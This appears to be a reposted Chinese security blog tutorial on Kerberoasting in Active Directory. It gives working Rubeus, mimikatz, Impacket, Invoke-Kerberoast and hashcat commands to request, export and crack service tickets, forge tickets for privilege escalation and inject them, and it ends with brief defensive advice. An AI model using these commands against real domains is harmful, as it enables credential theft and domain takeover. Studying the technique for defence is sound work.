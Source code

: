 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488972&idx=1&sn=87a6d987de72a03a2710f162170cd3a0&chksm=fc781111cb0f98070f74377f8348c529699a5eea8497fd40d254cf37a1f54f96632da6a96d83&scene=21#wechat_redirect)

作者：谢公子

  

CSDN 安全博客专家，擅长渗透测试、Web 安全攻防、红蓝对抗。其自有公众号：谢公子学安全

免责声明：本公众号发布的文章均转载自互联网或经作者投稿授权的原创，文末已注明出处，其内容和图片版权归原网站或作者本人所有，并不代表安全 + 的观点，若有无意侵权或转载不当之处请联系我们处理，谢谢合作！

**欢迎各位添加微信号：qinchang_198231** 

**加入安全 + 交流群 和大佬们一起交流安全技术**

**Kerberoast 攻击**

kerberoast 攻击发生在 kerberos 协议的 TGS_REP 阶段，关于 kerberos 协议详情，传送门：[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzI2NDQyNzg1OA==&mid=2247484272&idx=1&sn=aed485eb96d5a17b2fc57207b8095f67&chksm=eaad834dddda0a5bbef03eaf76a31ca15277ca79d77f865392aabef7844c324f53af3402ac51&scene=21#wechat_redirect)

**Kerberoast 攻击过程：**

1. 攻击者对一个域进行身份验证，然后从域控制器获得一个 TGT 认购权证 ，该 TGT 认购权证用于以后的 ST 服务票据请求。

2. 攻击者使用他们的 TGT 认购权证 发出 ST 服务票据请求 (TGS-REQ) 获取特定形式（name/host）的 servicePrincipalName (SPN)。例如：MSSqlSvc/SQL.domain.com。此 SPN 在域中应该是唯一的，并且在用户或计算机帐户的 servicePrincipalName 字段中注册。在服务票证请求(TGS-REQ) 过程中，攻击者可以指定它们支持的 Kerberos 加密类型(RC4_HMAC，AES256_CTS_HMAC_SHA1_96 等等)。

3. 如果攻击者的 TGT 是有效的，则 DC 将从 TGT 认购权证 中提取信息并填充到 ST 服务票据中。然后，域控制器查找哪个帐户在 ServicedPrincipalName 字段中注册了所请求的 SPN。ST 服务票据使用注册了所要求的 SPN 的帐户的 NTLM 哈希进行加密, 并使用攻击者和服务帐户共同商定的加密算法。ST 服务票据以服务票据回复 (TGS-REP) 的形式发送回攻击者。

4. 攻击者从 TGS-REP 中提取加密的服务票证。由于服务票证是用链接到请求 SPN 的帐户的哈希加密的，所以攻击者可以离线破解这个加密块，恢复帐户的明文密码。

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**SPN 服务主体名称的发现**

[传送门：域渗透之 SPN 服务主体名称](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488936&idx=1&sn=82c127c8ad6d3e36f1a977e5ba122228&chksm=fc781175cb0f986392b4c78112dcd01bf5c71e7d6bdc292f0d8a556cc27e6bd8ebc54278165d&scene=21#wechat_redirect)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**请求服务票据**

使用 Rubeus 请求

  

Rubeus 里面的 kerberoast 支持对所有用户或者特定用户执行 kerberoasting 操作，其原理在于先用 LDAP 查询于内的 spn，再通过发送 TGS 包，然后直接打印出能使用 hashcat 或 john 爆破的 Hash。 以下的命令会打印出注册于用户下的所有 SPN 的服务票据的 hashcat 格式。

```
Rubeus.exe kerberoast
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnN45zgs4ibRBhCRrT1h74a1TENA8XmWviaxyKbd4vytEx52iazKibNxsmvEw/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNoOl6kbTicibibESXNE3nsFKH6C162icB6pPEMh9Q6SgZjIcBDViabzicUQxw/640?wx_fmt=png)

powershell 命令请求

  

请求指定 SPN 的服务票据

```
#请求服务票据
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MySQL/win7.xie.com:3306/MySQL"
#列出服务票据
klist
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNicZyAlJgc2PibMQZG7sNZsu51yev7tq2gNs5lMSv4lP1hBJndT9Zg17w/640?wx_fmt=png)

mimikatz 请求

  

请求指定 SPN 的服务票据

```
#请求服务票据
kerberos::ask /target:MySQL/win7.xie.com:3306 
#列出服务票据
kerberos::list  
#清除所有票据
kerberos::purge
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNgy4NyLPjaVamLWWmrZtUuTrTqbhqgGicHccE2rBhDZDsrq5LfMA75FA/640?wx_fmt=png)

Impacket 中的 GetUserSPNS.py 请求

  

该脚本可以请求注册于用户下的所有 SPN 的服务票据。使用该脚本需要提供域账号密码才能查询。该脚本直接输出 hashcat 格式的服务票据，可用 hashcat 直接爆破。

```
./GetUserSPNs.py -request -dc-ip 192.168.10.131 xie.com/hack
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNDQQjFibBRV94bOxEwhZUxdrzmIicU2heKqlWxAyzNaU5QJEUibh9Brhibw/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**导出服务票据**

先查看票据

  

可以使用以下的命令

```
klist
或
mimikatz.exe "kerberos::list"

MSF里面
load kiwi
kerberos_ticket_list
或
load kiwi
kiwi_cmd kerberos::list
```

  

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNFL3F4FrpMicKWeLjPuT2PzVsR108QrJ6HaXFCVE5ibkPW9wwbribXH6Cg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNkhAER8IWHShYrd9Zc2J7LVISyAuVcSC90zWeKFBOK92dqzoX0nYqDA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNg1as9Zx1WJagKjEjicsWicKgGHsgKGBTQicSUHgcGWWmnIibRezv2gDickg/640?wx_fmt=png)

mimikatz 导出

  

```
mimikatz.exe "kerberos::list /export" "exit"
```

执行完后，会在 mimikatz 同目录下导出 后缀为 kirbi 的票据文件

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNuy4TCibXWJVham6fUjUJvNZEwgfUDyhsmYoj3hTz2ZSaCicibfvf8xxZQ/640?wx_fmt=png)

Empire 下的 Invoke-Kerberoast.ps1

  

导出 Hashcat 格式的票据

```
Import-Module .\Invoke-Kerberoast.ps1;Invoke-Kerberoast -outputFormat Hashcat
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNeGVU1R94958Mnyicjc5c1l01ZwTHiaibSicmfdgLNncfFUE7FMyGwfIzBA/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**离线破解服务票据**

kerberoast 中的 tgsrepcrack.py

  

```
python2 tgsrepcrack.py password.txt xx.kirbi
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnN1VlrBODPklwUUlKYuTrQR534HgEYCSichq6v9ceq0q0tibrvmU4OFuGA/640?wx_fmt=png)

tgscrack

  

```
python2 extractServiceTicketParts.py 1-40a00000-hack\@MySQL~win7.xie.com~3306~MySQL-XIE.COM.kirbi > hash.txt
go run tgscrack.go -hashfile hash.txt -wordlist password.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNibr2o4JicdfWmuAADB2FxUNt50RmbBrjlwVuj4aCmUnO8V0uibMwF4fGA/640?wx_fmt=png)

Hashcat

  

将导出的 hashcat 格式的哈希保存为 hash.txt 文件，放到 hashcat 的目录下

```
hashcat64.exe -m  13100  hash.txt  pass.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNhVBmIxEVCH80Rcn1DUB8uicnYBMcNiaMMUvoysnPKwibg7U8nLLFyaprQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnN2mHsEgxuefSRBebOrgiaf8GOpfDWCZGYCwzrmYtvuDN51ZLtdlg1ibxw/640?wx_fmt=png)

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**服务票据重写 & RAM 注入**

ST 票据使用服务密码的 NTLM 哈希签名。如果票据散列已被破解，那么可以使用 Kerberoast python 脚本重写票据。这将允许在服务被访问时模拟任何域用户或伪造账户。此外，提权也是可能的，因为用户可以被添加到诸如域管理员的高权限组中。

```
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -u 500
python kerberoast.py -p Password123 -r PENTESTLAB_001.kirbi -w PENTESTLAB.kirbi -g 512
```

使用以下 Mimikatz 命令将新票据重新注入内存，以便通过 Kerberos 协议对目标服务执行身份验证。

```
kerberos::ptt PENTESTLAB.kirbi
```

  

![](https://mmbiz.qpic.cn/mmbiz_gif/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNWCrTmibYOEbZYZw62bnaUYJIcAFqjIHfc1SxTZ9AW9bc5GTp2UK3DYg/640?wx_fmt=gif)

  

**Kerberoast 攻击防范**

*   确保服务账号密码为强密码 (长度、随机性、定期修改)
    
*   如果攻击者无法将默认的 AES256_HMAC 加密方式改为 RC4_HMAC_MD5，就无法实验 tgsrepcrack.py 来破解密码。
    
*   攻击者可以通过嗅探的方法抓取 Kerberos TGS 票据。因此，如果强制实验 AES256_HMAC 方式对 Kerberos 票据进行加密，那么，即使攻击者获取了 Kerberos 票据，也无法将其破解，从而保证了活动目录的安全性。
    
*   许多服务账户在内网中被分配了过高的权限，且密码强度较差。攻击者很可能通过破解票据的密码，从域用户权限提升到域管理员权限。因此，应该对服务账户的权限进行适当的配置，并提高密码的强度。
    
*   在进行日志审计时，可以重点关注 ID 为 4679(请求 Kerberos 服务票据) 的时间。如果有过多的 4769 日志，应进一步检查系统中是否存在恶意行为。
    

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNbGAB1U4tJaskHwMvoqDm8usHK4klz6QJyaYJQ5qveaukj9PUuYLxbQ/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_jpg/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnNKz0L4AJicKeAOqDRzT0h86OFKbToVlpicWKxsiaEHo9icWcCvf4Vd1p2gA/640?wx_fmt=jpeg)

![](https://mmbiz.qpic.cn/mmbiz_png/UZ1NGUYLEFgYb6xKr3EY5fvAvDj61qnN3RxtNlaqQTWQLf8eQWbuIicnnJXQPyD9IfPuu67GQtM8bvkzO96W4Yg/640?wx_fmt=png)

[内网渗透（三） | 域渗透之 SPN 服务主体名称](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488936&idx=1&sn=82c127c8ad6d3e36f1a977e5ba122228&chksm=fc781175cb0f986392b4c78112dcd01bf5c71e7d6bdc292f0d8a556cc27e6bd8ebc54278165d&scene=21#wechat_redirect)

[内网渗透（二） | MSF 和 CobaltStrike 联动](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488905&idx=2&sn=6e15c9c5dd126a607e7a90100b6148d6&chksm=fc781154cb0f98421e25a36ddbb222f3378edcda5d23f329a69a253a9240f1de502a00ee983b&scene=21#wechat_redirect)  

[内网渗透（一） | 搭建域环境](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488866&idx=2&sn=89f9ca5dec033f01e07d85352eec7387&chksm=fc7811bfcb0f98a9c2e5a73444678020b173364c402f770076580556a053f7a63af51acf3adc&scene=21#wechat_redirect)

[内网渗透 | 域内认证之 Kerberos 协议详解](http://mp.weixin.qq.com/s?__biz=MzU2MTQwMzMxNA==&mid=2247488900&idx=3&sn=dc2689efec7757f7b432e1fb38b599d4&chksm=fc781159cb0f984f1a44668d9e77d373e4b3bfa25e5fcb1512251e699d17d2b0da55348a2210&scene=21#wechat_redirect)